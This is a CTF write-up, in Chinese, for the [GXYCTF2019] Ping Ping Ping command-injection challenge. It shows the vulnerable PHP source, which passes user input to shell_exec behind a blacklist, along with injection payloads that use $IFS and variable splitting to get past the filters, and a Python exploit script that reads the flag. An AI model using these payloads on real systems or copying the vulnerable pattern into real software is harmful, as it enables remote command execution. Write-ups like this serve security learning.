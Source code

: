 # 分析

来自[[GXYCTF2019]Ping Ping Ping](https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping)，远程命令执行

提示也是ping，前一题是post请求，这题应该是get请求，payload=`127.0.0.1|ls`

![image-20240625202233593](image/image-20240625202233593.png)

发现有两个php，我尝试访问，不出意料无法，提示被过滤了

经过多次尝试，好像把空格过滤了，尝试空格绕过payload=`?ip=127.0.0.1;cat$IFS$1index.php`，得到源码分析都过滤了啥

```php
<?php
if(isset($_GET['ip'])){
  $ip = $_GET['ip'];
  if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){ //这里正则表达式，可使用提前设置变量绕过
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "<pre>";
  print_r($a);
}
?>
```

# exp

```python
import requests
import re

url = "http://b9fd5336-301f-4ec7-80bd-77c0968d255d.node5.buuoj.cn:81/"
kw={
  'ip':'127.0.0.1;a=g;cat$IFS$1fla$a.php'  #绕过空格和flag贪婪匹配
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", res_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag is -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

